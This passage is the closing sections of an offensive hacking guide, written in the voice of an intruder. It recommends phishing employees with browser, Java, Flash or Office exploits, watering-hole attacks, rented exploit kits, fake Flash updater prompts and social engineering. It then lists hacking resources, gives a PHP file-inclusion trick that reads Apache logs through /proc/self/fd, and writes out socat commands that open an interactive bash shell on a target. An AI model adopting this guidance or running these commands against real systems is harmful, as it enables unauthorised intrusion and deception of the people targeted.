 ## -- 8 -- Other Methods

The general method I outlined above of scan, find vulnerabilities, and exploit is just one way to hack, probably better suited to those with a background in programming. There's no one right way, and any method that works is as good as any other. The other main ways that I'll state without going into detail are:

Exploits in web browers, java, flash, or microsoft office, combined with emailing employees with a convincing message to get them to open the link or attachment, or hacking a web site frequented by the employees and adding the browser/java/flash exploit to that.

This is the method used by most of the government hacking groups, but you don't need to be a government with millions to spend on 0day research or subscriptions to FinSploit or VUPEN to pull it off. You can get a quality russian exploit kit for a couple thousand, and rent access to one for much less. There's also metasploit browser autopwn, but you'll probably have better luck with no exploits and a fake flash updater prompt.

2) Taking advantage of the fact that people are nice, trusting, and helpful 95% of the time.

The infosec industry invented a term to make this sound like some sort of science: "Social Engineering". This is probably the way to go if you don't know too much about computers, and it really is all it takes to be a successful hacker.

## -- 9 -- Resources

Links:

https://www.pentesterlab.com/exercises/

http://overthewire.org/wargames/

http://www.hackthissite.org/

http://smashthestack.org/

http://www.win.tue.nl/~aeb/linux/hh/hh.html

http://www.phrack.com/

http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot

http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash

https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/

https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-testers (all his other blog posts are great too)

https://www.corelan.be/ (start at Exploit writing tutorial part 1)

http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/

One trick it leaves out is that on most systems the apache access log is readable only by root, but you can still include from /proc/self/fd/10 or whatever fd apache opened it as. It would also be more useful if it mentioned what versions of php the various tricks were fixed in.

http://www.dest-unreach.org/socat/

Get usable reverse shells with a statically linked copy of socat to drop on your target and: target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM host$ socat file:tty,raw,echo=0 tcp-connect:localhost:PORTNUM It's also useful for setting up weird pivots and all kinds of other stuff.
